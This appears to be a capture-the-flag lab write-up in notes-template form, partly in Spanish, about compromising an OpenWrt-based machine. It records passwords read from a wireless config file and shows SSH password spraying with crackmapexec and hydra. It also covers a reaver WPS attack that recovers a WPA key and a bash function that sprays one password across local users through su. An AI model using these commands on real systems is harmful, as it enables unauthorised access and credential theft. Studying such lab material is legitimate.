 <font color="green">=======================================================================</font>
# Initial Information<font color="red">:</font> 
<font color="blue">=======================================================================</font>

Name | IP Address | Tech Stack | Web Server | DB
-- | -- | -- | -- | --
-- | -- | -- | -- | --


<hr>

### Loot - Credentials<font color="red">:</font> 

| **User**                                                                                                                                         | **Password**                                                                                             | **System** |
| ------------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------- | ---------- |
| samantha<br>root<br>daemon<br>oliver<br>netadmin<br><br>root<br>daemon<br>ftp<br>network<br>nobody<br>ntp<br>dnsmasq<br>logd<br>ubus<br>netadmin | VeRyUniUqWiFIPasswrd1!<br>WhatIsRealAnDWhAtIsNot51121!<br><br><br>found them on: cat etc/config/wireless |            |
|                                                                                                                                                  |                                                                                                          |            |

<hr>

<font color="green">=======================================================================</font>
# Enumeration
<font color="green">=======================================================================</font>

##### <font color="red">[+]</font> SERVICES<font color="red">:</font> 
- HTTP - <font color="red">XX</font> 

##### <font color="red">[+]</font> NMAP<font color="red">:</font> 

List all ports.
```bash
sudo nmap $IP -p- -sS --min-rate 5000 -Pn -n -v

PORT   STATE SERVICE
```

Services and version on identified open ports.
```bash 
nmap $IP -p XXX -sCV -oN enum/nmap -v

PORT   STATE SERVICE VERSION
```


<hr>

##### <font color="red">[+]</font> WFUZZ

###### FILES: <font color="red">/</font>(Web Root)
```bash
wfuzz -c --hc 404 --hh 0 -u http://$IP/FUZZ  -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -t 200

# Results:
=====================================================================
ID           Response   Lines    Word       Chars       Payload               
=====================================================================
```

###### DIRECTORIES: <font color="red">/</font>(Web Root)
```bash
wfuzz -c --hc 404 --hh 0 -u http://$IP/FUZZ/  -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -t 200

Results:
=====================================================================
ID           Response   Lines    Word       Chars       Payload               
=====================================================================
```

<hr>

<font color="green">=======================================================================</font>
# Post Exploitation
<font color="green">=======================================================================</font>

##### <font color="red">[+]</font> PrivEsc Notes<font color="red">:</font> 


##### <font color="red">[+]</font> System Enumeration<font color="red">:</font> 

- **Host**:
- **Compilation version and architecture**:


##### <font color="red">[+]</font> List Interesting Directories<font color="red">:</font> 

- **/tmp**:
- **/opt**:
- **/var/tmp**:
- **/dev/shm**:
- **/var/backups/**:
- **/var/mail**:

##### <font color="red">[+]</font> S/GUIDS<font color="red">:</font> 

- SUIDs:
```bash
getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/reaver = cap_net_raw+ep
```

##### <font color="red">[+]</font> ROOT Processes (ps) <font color="red">:</font> 
```bash
ps aux | grep -i root --color
```

##### <font color="red">[+]</font> Local Network Services (netstat/ss)<font color="red">:</font> 
```bash
# (or ss if netstat not available)
netstat -tunlp | grep '127.0.0.1' --color=auto
netstat -antup | grep '127.0.0.1' --color=auto
```

##### <font color="red">[+]</font> I/O - PsPy<font color="red">:</font> 
```bash
```


##### <font color="red">[+]</font> Explotation<font color="red">:</font> 

Se puede instalar 
sudo pip3 install crackmapexec
o tambien usar hydra:

Es mejor hydra, no hay que instalarlo y aparte me encontro los dos, mientras que crackmapexec solo me encontro root y termino ahi el proceso. creo que en cuanto encuentra uno termina automaticamente. 

```bash
crackmapexec ssh $ip -u users -p passwords

SSH         10.10.11.247    22     10.10.11.247     [+] root:WhatIsRealAnDWhAtIsNot51121! (Pwn3d!)
```

```bash
hydra -L users -P passwords ssh://$ip
[22][ssh] host: 10.10.11.247   login: netadmin   password: VeRyUniUqWiFIPasswrd1!
[22][ssh] host: 10.10.11.247   login: root   password: WhatIsRealAnDWhAtIsNot51121!
```


##### <font color="red">[+]</font> Explotation from inside<font color="red">:</font> 

We look for the wifinetwoks:
we can also try
```bash
iwconfig
ifconfig

```

```
iwlist scan
wlan1     Scan completed :
          Cell 01 - Address: 02:00:00:00:00:00
```

```bash
reaver -i mon0 -b 02:00:00:00:00:00

[+] Waiting for beacon from 02:00:00:00:00:00
[+] Received beacon from 02:00:00:00:00:00
[!] Found packet with bad FCS, skipping...
[+] Associated with 02:00:00:00:00:00 (ESSID: OpenWrt)
[+] WPS PIN: '12345670'
[+] WPA PSK: 'WhatIsRealAnDWhAtIsNot51121!'
[+] AP SSID: 'OpenWrt'

```

ippsec hace un do_spray que lo hice un script y lo copio en la terminal para declarar la funcion:
```bash
do_spray() {
    users=$(awk -F: '{ if ($NF ~ /sh$/) print $1 }' /etc/passwd)
    for user in $users; do
        echo "$1" | timeout 2 su $user -c whoami 2>/dev/null
        if [ $? -eq 0 ]; then
            return
        fi
    done
}

```
luego simplemente llamo la funcion y ejecuto:
```bash
do_spray "WhatIsRealAnDWhAtIsNot51121!"
root
```
y me dice que root tiene esa contrasena. 
lo pondre en un binario llamado spray que lo copia en el portapapeles.

https://youtu.be/jj4r5lwnCp8?si=hMFgN5dtUfCfWPZm
